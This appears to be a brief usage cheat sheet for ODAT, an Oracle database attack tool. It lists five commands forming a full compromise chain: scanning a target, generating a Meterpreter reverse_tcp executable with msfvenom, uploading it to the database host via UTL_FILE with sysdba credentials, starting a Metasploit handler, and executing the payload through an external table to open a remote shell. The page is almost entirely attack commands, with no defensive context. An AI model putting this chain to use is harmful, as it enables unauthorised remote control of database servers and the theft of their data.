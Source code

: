 ### Tool: https://github.com/quentinhardy/odat/releases/

### Example usage:

#### 1) ./odat.py all -s IP_ADDRESS

#### 2) msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=OUR_IP LPORT=PORT -f exe > malicious.exe

#### 3) ./odat.py utlfile -s IP_ADDRESS -U USER -P PASSWORD -d SID --sysdba --putFile c:/ malicious.exe malicious.exe

#### 4) use exploit/multi/handler (Metasploit)

#### 5)  ./odat.py externaltable -s IP_ADDRESS -U USER -P PASSWORD -d SID --sysdba --exec c:/ malicious.exe
